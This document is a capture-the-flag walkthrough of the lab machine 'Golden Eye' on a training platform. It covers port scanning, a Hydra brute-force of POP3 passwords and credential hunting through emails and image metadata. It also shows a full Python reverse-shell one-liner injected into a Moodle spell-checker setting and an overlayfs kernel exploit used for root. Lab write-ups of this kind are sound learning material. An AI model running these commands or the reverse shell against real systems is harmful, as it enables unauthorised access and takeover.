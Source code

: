 # Golden Eye

This machine tells an intriguing story from the world of James Bond. As we enumerate and explore its contents, the narrative becomes increasingly clear.

Using rustscan to enumerate open ports reveals four services: SMTP on port 25, an HTTP server on port 80, and POP3 running on ports 55006 and 55007. 

`rustscan -a 10.10.141.140 -- -sC  -sV` 

```php
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.141.140:25
Open 10.10.141.140:80
Open 10.10.141.140:55006
Open 10.10.141.140:55007
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-09 11:46 IST
PORT      STATE SERVICE  REASON         VERSION
25/tcp    open  smtp     syn-ack ttl 60 Postfix smtpd
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http     syn-ack ttl 60 Apache httpd 2.4.7 ((Ubuntu))
|_http-title: GoldenEye Primary Admin Server
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
55006/tcp open  ssl/pop3 syn-ack ttl 60 Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) UIDL USER TOP PIPELINING RESP-CODES AUTH-RESP-CODE CAPA
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
| Issuer: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
55007/tcp open  pop3     syn-ack ttl 60 Dovecot pop3d
|_pop3-capabilities: PIPELINING STLS TOP USER SASL(PLAIN) UIDL RESP-CODES AUTH-RESP-CODE CAPA
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
| Issuer: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
```

The webpage displays a *TOP SECRET*  landing page that leads to a login screen. 

![image.png](image.png)

Examining the source code reveals a script containing two users—Boris and Natalya—along with an encoded password.

![image.png](image%201.png)

We decode the password using cyberchef.

![image.png](image%202.png)

We use the username Boris and the decoded password to login to the page `/sev-home/` .

![image.png](image%203.png)

The page source code mentions the same two users.

![image.png](80396a54-16c9-4bc1-aeef-b4f92b9fd433.png)

Examining the other services, we discover that POP3 can be used to read emails after authentication with valid credentials. Here are the common commands used.

![image.png](image%204.png)

We use `telnet` to connect and attempt authentication, but it fails. While the username is correct, we still need to find the password.

![image.png](053e660b-5c70-4099-9bc7-4138837b1fc0.png)

We use Hydra to brute-force the password. When the rockyou.txt wordlist proved too time-consuming, we opted for a smaller wordlist based on another walkthrough.

`hydra -l boris -P /usr/share/set/src/fasttrack/wordlist.txt -s 55007 -f -V 10.10.141.140 pop3 -t 64`

![image.png](image%205.png)

Using the password we authenticate and start reading the emails.

![image.png](2a9485df-4076-4780-aae3-d6ce0abd556b.png)

First one is from root.

![image.png](image%206.png)

Second one from Natalya saying she can break his code.

![image.png](image%207.png)

Third one is rather interesting. It’s from a syndicate. Well well we have a mole among us. 

![image.png](image%208.png)

Next we find Natalya’s password.

![image.png](image%209.png)

The first email is from root, instructing her to stop breaking Boris's code and warning her about the Janus syndicate—the same group Boris has been communicating with. 

![image.png](image%2010.png)

Second one is credentials for a new user `xenia` . Xenia is the new student sent by the syndicate who was verified by Boris.  The story is getting more clear.

![image.png](image%2011.png)

To access the new URL we need to add it to `/etc/hosts` file.

`sudo nano /etc/hosts` 

![image.png](image%2012.png)

We login to the URL provided using Xenia’s credentials and access the messages.

My profile → Messages

![image.png](image%2013.png)

The message reveals another user `doak` . Using hydra we find his password too.

![image.png](image%2014.png)

Logging in and reading the email, he has left a mail for James Bond containing his credentials for the training site.

![image.png](image%2015.png)

Logging in using the credentials and access his private files. It contains a secret text file saying he has the admin credentials.

My Profile → My Private Files

![image.png](image%2016.png)

Visiting the given page displays an image. After downloading it, we use `exiftool` to inspect it for any hidden metadata or embedded information.

![image.png](image%2017.png)

![image.png](image%2018.png)

There is some `base64` encoded message in image description. Decoding it gives us the admin credentials.

![image.png](image%2019.png)

The room hints us about a vulnerability with aspell spell checker we can exploit. We search for aspell in the search box in left section.

![image.png](e13eeb3a-544a-4a61-837f-7d71bcf3148e.png)

Here there is a “Path to aspell” with commands. We rewrite it with a reverse shell command that uses python and save it.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.17.47",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Next we change the Spell engine to PSpellShell in text editor plugin settings and save it. 

![image.png](image%2020.png)

Next to create a new page we follow the below path.

My profile → Blogs → Add a new entry

![image.png](image%2021.png)

Setup  a netcat listener on the specified port and use the spell checker in the editor, which in turn will execute the command we injected in path to aspell.

![image.png](image%2022.png)

We capture a reverse shell to the machine.

![image.png](image%2023.png)

Now we download the `linuxprivchecker`  from the URL provided and send it to the victim machine by setting up a python server in the folder containing the file.

`https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123`

![image.png](image%2024.png)

Use `wget` to download the file into the victim machine’s `/tmp` folder. Running it and looking at the installed file we can see C compilation tool `cc` in the list.

![image.png](image%2025.png)

The room hints us that the machine with a kernel version of 3.13.0-32-generic is vulnerable to `overlayfs` exploit and provide us with the URL to the exploit. The exploit provided uses `gcc` , we need to change it to `cc` in the code and send it to the victim machine like we did before. Compile it using `cc` and executing it gets us the root access.

`https://www.exploit-db.com/exploits/37292`

![image.png](image%2026.png)

The flag is hidden in root folder.

![image.png](image%2027.png)
